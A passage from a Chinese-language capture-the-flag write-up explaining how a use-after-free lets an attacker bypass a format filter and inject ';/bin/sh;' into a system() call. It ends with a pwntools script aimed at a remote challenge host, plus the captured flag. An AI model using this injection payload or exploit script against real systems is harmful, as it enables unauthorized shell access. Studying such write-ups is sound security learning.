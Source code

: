 strdup函数的操作涉及到堆。详情见[这里](https://stackoverflow.com/questions/252782/strdup-what-does-it-do-in-c)。我是省流管家：此函数内部分配传入参数大小的一块空间，并返回一个指向这块空间的指针。这块空间存储着跟传入参数相同的字符串。

内部使用了malloc。malloc加上刚刚的free会让我这个萌新想到什么呢？UAF。还记得PrintTime中会使用system执行local_810吗？我们只要让local_810包含getshell的命令就行了。

- ### snprintf
  > 将可变参数(...)按照 format 格式化成字符串，并将字符串复制到 str 中，size 为要写入的字符的最大数目，超过 size 会被截断。
  - 声明：int snprintf ( char * str, size_t size, const char * format, ... );
  - 参数
    > str -- 目标字符串。<br>
    > size -- 拷贝字节数(Bytes)。<br>
    > format -- 格式化成字符串。<br>
    > ... -- 可变参数。

跟__snprintf_chk的套路一样，__snprintf_chk和snprintf差不多，就是检查了栈。local_810中的内容应该为/bin/date -d @time +\'format\'。此处有个命令注入。linux中命令之间用;分割，所以我们可以在format的payload中包含;号，然后接着getshell的命令。问题是format有过滤，不能包含分号。是时候放出UAF了。

UAF简述一下就是释放的指针被重新使用。底层原理涉及很多，简述就是在malloc内存然后free释放掉后，指针的值并不会消失。假设之前malloc了0x20这么大的内存，free掉但是不将指针置为null，后面再次malloc 0x20这么大的内存时就会优先考虑之前free掉的同样大小的内存。这么一套流程下来，两个不一样地方的malloc将会一前一后分配到同样的指针。

程序中另一个涉及到malloc的函数是SetTimeZone，且没有任何过滤。计划如下：

1.先去SetTimeFormat，输入两个字节大小的内容（对应/bin/sh，这样保险一点，但是可能输入更多的内容也行？），让程序malloc出一块内存。
2.Exit释放掉刚刚的指针，但此时那个指针还是有值的。
3.再去 SetTimeZone，输入';/bin/sh;',此时系统会为我们分配一块内存，但是和第一步分配到的一样。
4.调用PrintTime，执行payload。

PrintTime中会要求format指针不为空。虽然第二步free掉后我们没有再设置format，但是format中仍然存有第一步的指针值。第三步也会分配到同样的指针所指的内存，所以我们可以任意修改里面的值。';/bin/sh;'两边的单引号是为了闭合/bin/date -d @time +\'format\'的format两边的单引号，就喝sql注入一样。

然后就能getshell了！因为最后format指针所指的空间已经被第三步修改为getshell字符串了。

```python
from pwn import *
proc=remote('61.147.171.105',65429)
proc.sendlineafter('> ',b'1')
proc.sendline(b'aa')
proc.sendlineafter('> ',b'5')
proc.sendline(b'N')
proc.sendlineafter('> ',b'3')
proc.sendline(b"';/bin/sh;'")
proc.sendlineafter('> ',b'4')
proc.interactive()
```

- ### Flag
  > cyberpeace{859c08d0d76ff65b4291e4c6e114c21e}
